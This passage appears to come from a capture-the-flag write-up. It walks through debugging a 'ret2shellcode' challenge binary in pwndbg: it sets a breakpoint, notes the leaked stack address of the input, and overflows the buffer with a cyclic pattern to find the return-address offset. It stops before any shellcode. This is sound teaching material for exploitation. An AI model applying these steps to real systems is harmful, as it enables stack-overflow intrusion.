 This code is definitely of C++ as it has this ugly syntax. If we run command `disassemble main` it will give us assembly of main function. 

![pwn4.png](/img/pwn4.png)

Setting up breakpoint at return address of main function which is `main+252`

```bash
pwndbg> break main+252
Function "main+252" not defined.
pwndbg> break *main+252
Breakpoint 1 at 0x1295
pwndbg> run
Starting program: /home/at0m/ret2shellcode 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffb97349a0
AAAABBBBCCCCDDDDEEEEFFFF 
```

After giving input `AAAABBBBCCCCDDDDEEEEFFFF` we can also examine the address that we currently are shown in program which is `0x7fffb97349a0`. If we examine it as string in pwngdb using command `x/s`.

```bash
pwndbg> x/s 0x7fffb97349a0
0x7fffb97349a0:	"AAAABBBBCCCCDDDDEEEEFFFF\nJs\271\377\177"
```

We can see its the address of our input. Lets put a bunch of values to check whether it has stack overflow or not. We can use command `cyclic` for it to get a specific pattern of payload rather than typing it out.

```bash
pwndbg> cyclic 120
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaa
```

```bash
pwndbg> r
Starting program: /home/at0m/ret2shellcode 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7ffd774ceba0
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaa
```

![pwn5.png](/img/pwn5.png)

We can see that stack has been overflowed and address has been put to `0x6161616161616166` we can copy 8 bytes `0x6161616161616166` and unhex it which is `aaaaaaaf` but since its in little-endian format in memory it will be `faaaaaaa`. We can run this command to get offset. `-n` specifies size which is 8 bytes.
